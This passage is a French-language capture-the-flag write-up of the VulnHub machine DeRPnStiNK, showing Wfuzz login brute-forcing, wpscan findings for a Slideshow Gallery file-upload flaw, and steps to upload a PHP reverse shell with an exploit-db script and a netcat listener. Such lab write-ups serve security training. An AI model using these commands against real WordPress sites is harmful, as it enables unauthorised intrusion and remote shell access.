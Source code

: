 #### Mais comme je l'avais lancé :
```console
********************************************************

* Wfuzz 2.2.3 - The Web Fuzzer                         *

********************************************************
Target: <HTTP://derpnstink.local/weblog/wp-login.php>
Total requests: 14344392
==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================
19819:  C=302      0 L	       0 W	      0 Ch	  "admin"
```

####Donc c'est juste pour une confirmation, lol

####Maintenant que l'on est admin du site, que pouvons-nous faire ?
Mais même avec ce login/password on ne peut rien faire, l'admin est un user lambda, pas véritablement administrateur du site. On arrive pas à l'interface complète du site.

####Avec notre wpscan on voit entre autre :
<pre>
Mais comme on aimerait un download d'un webshell ce serait pas mal.
Wscan nous remonte quand même des vulnérabilités, donc nous allons creuser dansce sens.
</pre>

```console
[!] Title: Slideshow Gallery < 1.4.7 Arbitrary File Upload
Reference: <https://wpvulndb.com/vulnerabilities/7532>
Reference: <http://seclists.org/bugtraq/2014/Sep/1>
Reference: <http://packetstormsecurity.com/files/131526/>
Reference: <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-5460>
Reference: <https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_slideshowgallery_upload>
Reference: <https://www.exploit-db.com/exploits/34681/>
Reference: <https://www.exploit-db.com/exploits/34514/>
[i] Fixed in: 1.4.7
```

####Donc on download en raw le script python :
Reference: <https://www.exploit-db.com/exploits/34681/>

####Ensuite il nous faut le petit reverse shell qui va bien  (je suis fan et c'est LA référence) :
<http://pentestmonkey.net/tools/web-shells/php-reverse-shell>
On adpate le script avec l'IP de monposte Kali attaquante on met le port qui va bien.

####On ouvre un netcat sur la machine attaquante :
```console
nc -lvp 5678
```

####Et on lance l'exploit :
```console
root@DebSec:~/Documents/Challenge/VulnHub/DeRPnStiNK# python ./34681.py -t <http://derpnstink.local/weblog/> -f ./php-reverse-shell.php -u admin -p admin


 $$$$$$\  $$\ $$\       $$\                     $$$$  __$$\ $$ |\__|      $$ |                    $$ |
$$ /  \__|$$ |$$\  $$$$$$$ | $$$$$$\   $$$$$$$\ $$$$$$$\   $$$$$$\  $$\  $$\  $$\$$$$$$\  $$ |$$ |$$  __$$ |$$  __$$\ $$  _____|$$  __$$\ $$  __$$\ $$ | $$ | $$ |
 \____$$\ $$ |$$ |$$ /  $$ |$$$$$$$$ |\$$$$$$\  $$ |  $$ |$$ /  $$ |$$ | $$ | $$ |
$$\   $$ |$$ |$$ |$$ |  $$ |$$   ____| \____$$\ $$ |  $$ |$$ |  $$ |$$ | $$ | $$ |
\$$$$$$  |$$ |$$ |\$$$$$$$ |\$$$$$$$\ $$$$$$$  |$$ |  $$ |\$$$$$$  |\$$$$$\$$$$  |
 \______/ \__|\__| \_______| \_______|\_______/ \__|  \__| \______/  \_____\____/



```